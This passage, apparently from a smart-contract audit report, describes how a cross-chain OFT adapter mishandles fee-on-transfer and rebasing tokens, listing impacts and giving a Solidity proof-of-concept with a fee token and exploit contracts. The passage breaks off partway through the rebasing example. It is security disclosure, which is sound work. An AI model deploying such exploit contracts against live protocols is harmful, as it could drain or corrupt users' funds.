 ### Impact
- Loss of funds when used with fee-on-transfer tokens
- Incorrect balance tracking across chains
- Potential for double-spending with rebasing tokens
- System-wide supply inconsistencies
- Permanent loss of user funds

### Proof of Concept
```solidity
contract FeeToken is IERC20 {
    uint256 public constant FEE_PERCENT = 5;
    
    function transfer(address to, uint256 amount) external returns (bool) {
        uint256 fee = (amount * FEE_PERCENT) / 100;
        uint256 actualAmount = amount - fee;
        // Transfer actualAmount instead of full amount
        _transfer(msg.sender, to, actualAmount);
        return true;
    }
}

contract OFTAdapterExploit {
    function demonstrateLoss(address adapter, address feeToken) external {
        // 1. Deploy fee token
        FeeToken token = FeeToken(feeToken);
        
        // 2. Setup cross-chain transfer
        uint256 amount = 1000e18;
        SendParam memory param = SendParam({
            dstEid: 2,
            to: bytes32(uint256(uint160(address(this)))),
            amountLD: amount,
            minAmountLD: amount,  // Expects full amount
            extraOptions: "",
            composeMsg: "",
            oftCmd: ""
        });
        
        // 3. Execute transfer
        // User sends: 1000 tokens
        // Adapter receives: 950 tokens (5% fee)
        // But records: 1000 tokens locked
        // Result: 50 tokens permanently lost
        IOFTAdapter(adapter).send(param, MessagingFee(0, 0), address(this));
        
        // 4. On destination chain
        // Adapter tries to send: 1000 tokens
        // Actually sends: 950 tokens
        // Records: 1000 tokens received
        // Result: Accounting mismatch and lost funds
    }
}

contract RebasingTokenExploit {
    function demonstrateRebaseLoss(address adapter) external {
        // 1. Initial state
        // User deposits 1000 tokens
        // Adapter records 1000 tokens locked
        
        // 2. Token rebases down 50%
        // Actual balance: 500 tokens
        // Recorded balance: Still 1000 tokens
        
```